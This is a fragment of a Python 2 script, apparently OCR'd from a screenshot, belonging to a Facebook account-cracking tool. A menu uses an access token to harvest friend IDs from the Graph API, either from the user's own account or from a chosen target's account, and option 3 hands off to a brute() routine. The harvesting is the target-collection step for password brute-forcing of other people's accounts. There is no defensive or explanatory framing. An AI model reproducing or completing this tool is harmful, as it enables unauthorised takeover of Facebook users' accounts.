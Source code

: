  peak = raw_input("\n\033[1;31;40m>>> \033[1;97m")

 if peak =="":

  print "\033[1;97mFill in correctly"

  pilih_super()

 elif peak =="1":

  os.system('clear')

  print logo

  jalan('\033[1;97m[✺] Getting IDs \033[1;97m...')

  r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)

  z = json.loads(r.text)

  for s in z['data']:

   id.append(s['id'])

 elif peak =="2":

  os.system('clear')

  print logo

  idt = raw_input("\033[1;97m[*] Enter ID : ")

  try:

   jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)

   op = json.loads(jok.text)

   print"\033[1;31;40m[✺] Name : "+op["name"]

  except KeyError:

   print"\033[1;97m[✺] ID Not Found!"

   raw_input("\n\033[1;97m[\033[1;97mBack\033[1;97m]")

   super()

  print"\033[1;35;40m[✺] Getting IDs..."

  r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)

  z = json.loads(r.text)

  for i in z['data']:

   id.append(i['id'])

 elif peak =="3":

  os.system('clear')

  print logo

  brute() 

